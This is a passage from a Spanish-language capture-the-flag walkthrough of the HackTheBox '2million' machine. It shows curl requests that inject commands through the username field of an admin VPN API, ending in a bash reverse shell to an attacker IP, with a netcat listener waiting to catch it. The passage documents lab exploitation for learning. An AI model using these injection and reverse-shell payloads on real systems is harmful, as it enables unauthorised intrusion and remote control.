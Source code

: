 ![api](Imagenes/26.png)

Nos pide un parámetro de nombre de usuario, por lo que vamos a especificar el usuario dani:

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"username": "dani"}'
```

![api](Imagenes/27.png)

Como podemos observar, se genera un archivo openvpn para el usuario, como el usuario es un campo que podemos manejar, podemos intentar colar un comando en la data:

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"username": "dani;whoami #"}'
```

![api](Imagenes/28.png)

Como podemos ver tenemos ejecución remota de comandos, así que vamos a intentar enviarnos una shell:

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"username": "dani;bash -c \"bash -i >& /dev/tcp/10.10.14.248/443 0>&1\";"}'
```

```
netcat -lvnp 443
```
